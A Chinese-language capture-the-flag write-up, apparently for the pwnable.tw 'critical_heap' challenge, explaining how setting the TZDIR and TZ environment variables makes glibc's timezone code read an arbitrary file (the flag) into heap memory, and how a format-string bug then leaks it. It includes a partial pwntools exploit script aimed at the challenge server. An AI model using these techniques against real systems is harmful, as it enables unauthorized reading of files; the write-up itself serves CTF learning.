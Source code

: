 tzset_internal()
```c
tzset_internal (int always)
{
  static int is_initialized;
  const char *tz;
  if (is_initialized && !always)
    return;
  is_initialized = 1;
  /* Examine the TZ environment variable.  */
  tz = getenv ("TZ");
  if (tz && *tz == '\0')
	...
	__tzfile_read()
```
一开始没有啥想法..只认为是巧合但是当我点进__tzfile_read的时候
发现里面有这样一段注释
```c
/* This test is certainly a bit too restrictive but it should
           catch all critical cases.  */
```
和题目很像有没有...于是我简略理解了一下整个函数...
发现
getenv("TZDIR")
getenv("TZ")
确定TZfile...而且可能读进内存...于是我本地做了实验发现可以任意文件包含读到heap

以上可以readflag到heap了...但是没法泄露我本以为是栈上操作...搞了半天没发现一个明显的洞..
主要我以为加了chk就没有fmtstr漏洞了...
*  _printf_chk(1LL, (__int64)nd->context);
在play normal chunk里面有任意地址读漏洞...读flag就可以了....

## exp
```python
from pwn import *
context.log_level='debug'
def cmd(c):
	p.sendlineafter("choice : ",str(c))
def add(name,tp=1,ct="A"):
	cmd(1)
	p.sendafter("Name of heap:",name)
	cmd(str(tp))
	if tp==1:
		p.sendafter("Content of heap :",ct)
def show(idx):
	cmd(2)
	p.sendlineafter("heap :",str(idx))
def play(idx):
	cmd(4)
	p.sendlineafter("heap :",str(idx))
def play_sys(idx,c=1,name="TZDIR",value='/home/critical_heap++/'):
	cmd(4)
	p.sendlineafter("heap :",str(idx))
	cmd(c)
	if c==1:
		p.sendlineafter("Give me a name for the system heap :",name)
		p.sendlineafter("Give me a value for this name :",value)
		cmd(5)
#0x000000000604040
#p=process("./critical_heap")
p=remote("chall.pwnable.tw",10500)
add("n132",3)#0
play_sys(0,1,"TZDIR",'/home/critical_heap++/')
play_sys(0,1,"TZ","flag")
```